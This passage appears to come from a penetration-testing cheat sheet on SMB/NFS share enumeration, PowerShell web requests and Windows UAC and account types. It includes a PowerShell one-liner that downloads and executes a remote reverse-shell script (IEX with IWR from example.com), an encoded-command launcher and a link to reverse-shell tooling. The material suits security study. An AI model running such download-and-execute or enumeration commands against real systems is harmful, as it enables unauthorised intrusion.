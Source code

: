 Enumerate shares and access :

```bash
$ crackmapexec smb example.com --shares
$ smbclient -L example.com
```

### NFS

Display shared folders by the NFS server :

```bash
$ showmount -e example.com
$ sudo mount -t nfs example.com:/shared_folder /mnt/folder
```

### Reverse shell

- [nishang/Shells](https://github.com/samratashok/nishang/tree/master/Shells)

## Powershell

### HTTP Request

```powershell
C:\> iwr http://example.com/

C:\> Invoke-WebRequest 'https://example.com/files/backup.zip' -OutFile C:\backup.zip
```

### Run a PowerShell expression

```powershell
C:\> IEX( IWR http://example.com/revshell.ps1 )

C:\> powershell.exe -EncodedCommand <base64>
```

## User Account Control (UAC)

The User Account Control (UAC) aims to improve the security of Microsoft Windows by limiting application software to standard user privileges until an administrator authorizes an increase or elevation. In this way, only applications trusted by the user may receive administrative privileges, and malware should be kept from compromising the operating system. In other words, a user account may have administrator privileges assigned to it, but applications that the user runs do not inherit those privileges unless they are approved beforehand or the user explicitly authorizes it.

![Windows Security alerts in Windows 10](https://upload.wikimedia.org/wikipedia/en/7/72/User_Account_Control.png)

> Source [Wikipedia](https://en.wikipedia.org/wiki/User_Account_Control).

## Type of accounts

| Account              | Permissions   |
| :------------------- | :------------ |
| Guest                | Can use portable software and can not change system settings. |
| Standard             | Can use portable software and change system settings that don’t affect other users. |
| Administrator        | Complete control over the PC. |
| System               | Complete control over the PC. |
| Domain Administrator | Complete control over all the PC of the domain. |
